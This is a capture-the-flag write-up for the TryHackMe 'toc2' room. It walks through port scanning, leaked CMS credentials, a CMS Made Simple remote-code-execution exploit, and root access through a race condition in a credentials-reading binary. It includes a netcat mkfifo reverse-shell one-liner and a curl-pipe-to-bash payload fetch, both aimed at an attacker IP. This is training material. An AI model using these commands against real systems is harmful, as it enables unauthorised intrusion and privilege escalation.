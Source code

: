 # 55 - toc2 (race condition exploitation)

Room Link --> [https://tryhackme.com/dashboard](https://tryhackme.com/dashboard)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
┌──(dking㉿dking)-[~/Downloads]
└─$ nmap -Pn -n -v 10.10.136.233 -p- -T5

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```
{% endcode %}

On the website main page, there is a note:

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

`cmsmsuser:devpass`  - the dev left his credentials there.

The `robots.txt` page.

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Searched online for an exploit and got [this](https://www.exploit-db.com/exploits/44192)

#### Exploitation

Proceed as stated in the exploit POC, when we get to step 4, we intercept the traffic with burpsuite and modify the `timezone` parameter.

The dbmane is also on the `robots.txt` page.

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And done, we goto the path:

`http://10.10.136.233/cmsms/config.php?cmd=id;uname` - we have RCE.



<figure><img src=".gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Initial Access

Getting reverse shell, i used

‘rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.88.214 9000 >/tmp/f’, save it in a \`shell.sh\` file, then \`curl [http://10.18.88.214/shell.sh](http://10.18.88.214/shell.sh) | bash\` on the cmd paprameter.

<figure><img src=".gitbook/assets/image (385).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to Frank

There is a `new_machine.txt` file in Frank home directory. It contained a password, so i tried it for Frank and it worked.

### Priv Esc to Root

There is a `readcreds.c` file that seems to be vulnerable to `Race Condition` attack.

{% code overflow="wrap" lineNumbers="true" %}
```c
frank@toc:~/root_access$ ./readcreds readcreds.c
#include <string.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>
#include <fcntl.h>
#include <errno.h>
#include <stdlib.h>

int main(int argc, char* argv[]) {
    int file_data; char buffer[256]; int size = 0;

    if(argc != 2) {
        printf("Binary to output the contents of credentials file \n ./readcreds [file] \n"); 
	exit(1);
    }

    if (!access(argv[1],R_OK)) {
	    sleep(1);
	    file_data = open(argv[1], O_RDONLY);
    } else {
	    fprintf(stderr, "Cannot open %s \n", argv[1]);
	    exit(1);
    }

    do {
        size = read(file_data, buffer, 256);
        write(1, buffer, size);
    } 
    
    while(size>0);
}
```
{% endcode %}

WATCH this video if you are not familiar with race conditions

[https://www.youtube.com/watch?v=5g137gsB9Wk](https://www.youtube.com/watch?v=5g137gsB9Wk)

Download the `rename.c`  binary used for the exploitation: https://github.com/sroettger/35c3ctf\_chals/blob/master/logrotate/exploit/rename.c

You’ll need to compile this C file first.

Create a blank file to use as one of these two arguments. I just `touch asd` , and execute it with `root_password_backup` as an argument `./rename root_password_backup asd` _._ You will see the terminal hang… this is normal.

We can now ssh as Frank in another terminal or background the process. let’s try to run the _readcreds_ binary with our file we want to read. At first we may not be able to open, but keep pounding up and enter until eventually we hit our permissions and cat the file.

<figure><img src=".gitbook/assets/image (386).png" alt=""><figcaption></figcaption></figure>

`su root`&#x20;

Done!

